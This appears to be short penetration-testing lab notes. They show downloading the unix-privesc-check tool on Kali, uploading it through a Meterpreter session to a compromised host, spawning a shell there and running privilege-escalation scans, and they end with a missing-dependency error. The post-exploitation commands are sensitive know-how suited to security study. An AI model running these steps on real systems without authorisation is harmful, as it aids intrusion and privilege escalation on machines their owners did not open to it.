

Unix-privesc-check v1.4
site:
http://pentestmonkey.net/tools/audit/unix-privesc-checkkali@kali:~$ wget http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
kali@kali:~$ tar -xf unix-privesc-check-1.4.tar.gz
kali@kali:~$ ls
meterpreter> pwd
meterpreter> mkdir unix-privesc-check-1.4
meterpreter> cd unix-privesc-check-1.4
meterpreter> upload -r /home/kali/Desktop/unix-privesc-check-1.4 . #-r option is used to upload the entire
#directory recursively
meterpreter> execute -f /bin/sh -i -c
chmod +x unix-privesc-check
./unix-privesc-check standard #standard report
./unix-privesc-check detailed #detailed report
ERROR: Dependend program 'strings' is mising. Can't run. Sorry!
